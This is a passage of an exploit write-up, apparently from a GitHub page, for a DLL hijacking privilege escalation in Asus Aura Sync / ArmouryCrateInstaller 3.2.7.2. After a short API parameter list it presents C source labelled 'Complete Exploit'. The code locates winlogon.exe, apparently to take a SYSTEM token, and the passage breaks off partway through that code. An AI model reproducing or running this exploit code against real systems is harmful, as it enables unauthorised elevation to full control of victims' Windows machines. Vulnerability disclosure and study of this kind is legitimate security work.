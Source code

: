 - **Description:** Creates a new process and its primary thread, using the specified token and additional information.
- **Parameters:**
  - `hToken`: A handle to the primary token that represents a user.
  - `dwLogonFlags`: The logon option.
  - `lpApplicationName`: The name of the module to be executed.
  - `lpCommandLine`: The command line to be executed.
  - `dwCreationFlags`: The flags that control the priority class and the creation of the process.
  - `lpEnvironment`: A pointer to the environment block for the new process.
  - `lpCurrentDirectory`: The full path to the current directory for the process.
  - `lpStartupInfo`: A pointer to a `STARTUPINFO` structure.
  - `lpProcessInformation

`: A pointer to a `PROCESS_INFORMATION` structure that receives identification information about the new process.

## 0x05: Complete Exploit

```c
/*
@component: Asus Aura Sync / Aura Creator - ArmouryCrateInstaller 3.2.7.2

@filename: dllpoc.cpp

@vulnerability: 0Day - Arbitrary Code Execution (DLL Hijacking) To Local Privilege Escalation In 
Asus Aura Sync - ArmouryCrateInstaller 3.2.7.2

@author: RashidKhan Pathan (iHexCoder)


*/

#include <stdio.h>
#include <windows.h>
#include <Psapi.h>
#include <Tlhelp32.h>
#include <sddl.h>
#include <iostream>


#pragma comment (lib,"advapi32.lib")

void exploit() {
    printf("[+] Vulnerability: Local Privilege Escalation Via DLL Hijacking \n");
    printf("[+] Author: RashidKhan Pathan (iHexCoder) \n");
    printf("[+] Tested On: Windows 10 20H2 (OS Build: 19045.3508) \n");
    printf("[+] Affected Products: Aura Sync / Aura Creator - ArmouryCrateInstaller 3.2.7.2 \n");
    printf("[+] Affected Components: profapi.dll, PROPSYS.dll, edputil.dll, urlmon.dll, SspiCli.dll \n");

    DWORD lpidProcess[2048], lpcbNeeded, cProcesses;
    EnumProcesses(lpidProcess, sizeof(lpidProcess), &lpcbNeeded);
    HANDLE hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);

    PROCESSENTRY32 p32;
    p32.dwSize = sizeof(PROCESSENTRY32);

    int processwinloginPid;

    if (Process32First(hSnapshot, &p32)) {
        do {
            if (wcscmp(p32.szExeFile, L"winlogon.exe") == 0) {
                printf("[+] Located winlogon.exe by process name (PID %d)\n", p32.th32ParentProcessID);
```